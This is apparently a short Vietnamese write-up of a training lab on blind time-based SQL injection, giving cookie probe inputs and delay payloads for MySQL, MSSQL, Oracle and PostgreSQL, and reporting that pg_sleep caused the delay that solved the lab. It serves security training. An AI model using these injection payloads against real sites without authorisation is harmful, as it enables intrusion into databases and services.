

# Lab: Blind SQL injection with time delays

## 1. Kiểm tra ban đầu

Payload thử:

```text
TrackingId=2WkTs6DCsuTg7MuL'     // không thấy có gì đặc biệt
TrackingId=2WkTs6DCsuTg7MuL'--   // không thấy có gì đặc biệt
TrackingId=2WkTs6DCsuTg7MuL''--  // không thấy có gì đặc biệt
```

## 2. Thử payload time-based theo DBMS

```text
MySQL:      ' AND SLEEP(10)--
MSSQL:      '; WAITFOR DELAY '0:0:10'--
Oracle:     ' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',10)--
PostgreSQL: '; SELECT pg_sleep(10)--
```

Quan sát: payload `pg_sleep(10)` làm response delay 10 giây.

Kết luận: xác định được SQLi dạng time-based trên PostgreSQL, lab solved.

